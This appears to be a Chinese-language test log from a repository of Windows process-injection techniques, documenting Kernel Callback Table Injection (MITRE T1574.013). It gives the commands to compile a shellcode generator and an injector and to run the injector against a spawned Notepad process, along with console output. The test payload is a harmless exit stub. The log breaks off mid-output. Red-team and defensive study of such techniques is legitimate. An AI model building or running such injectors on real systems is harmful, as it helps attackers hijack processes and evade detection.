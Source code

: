
## 测试环境

- **操作系统**：Windows 10 x64
- **编译器**：GCC (MinGW-w64) 13.2.0
- **测试日期**：2025-10-08
- **测试工具**：techniques/10-kernel-callback-table/build/kernel_callback_injection.exe

---

## 测试步骤

### 1. 编译项目

```bash
cd techniques/10-kernel-callback-table

# 编译 shellcode 生成器
cd build
gcc ../src/generate_shellcode.c -o generate_shellcode.exe -O2 -Wall

# 生成测试 payload
./generate_shellcode.exe payload.bin

# 编译主注入器
gcc ../src/kernel_callback_injection.c -o kernel_callback_injection.exe -O2 -Wall
```

**编译输出：**
```
===================================================================
Shellcode Generator - Kernel Callback Table Injection
===================================================================

[*] Generating PIC shellcode...
[*] Current version: Simple exit shellcode for testing

[+] ExitProcess address: 0x00007FFB3F2818A0
[+] Shellcode written to: payload.bin (19 bytes)

[+] Shellcode generation completed!
```

### 2. 执行注入测试

```bash
cd build

# 运行注入器（会自动创建 Notepad 进程）
./kernel_callback_injection.exe payload.bin
```

**测试输出：**
```
===================================================================
Kernel Callback Table Injection
Based on: github.com/0xHossam/KernelCallbackTable-Injection-PoC
MITRE ATT&CK: T1574.013
===================================================================

[*] Enabling Debug Privilege...
[+] Debug Privilege enabled
[+] Payload loaded: 19 bytes

===================================================================
Kernel Callback Table Injection
```